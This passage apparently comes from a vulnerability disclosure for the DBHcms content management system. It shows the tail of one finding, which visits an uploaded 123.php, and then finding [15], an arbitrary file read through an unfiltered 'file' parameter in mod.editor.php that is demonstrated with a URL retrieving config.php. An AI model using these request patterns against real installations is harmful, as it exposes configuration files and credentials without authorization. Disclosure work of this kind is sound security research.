 then visit http://localhost:8089/123.php

![](images/2019-07-25-17-05-59.png)

## [15]

in dbhcms\mod\mod.editor.php $_GET['file'] is filename,and there has no filter function for security, you can read any file's content. 

first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-6

view-source:http://localhost:8089/index.php?dbhcms_pid=-6&file=config.php

![](images/2019-07-25-17-08-27.png)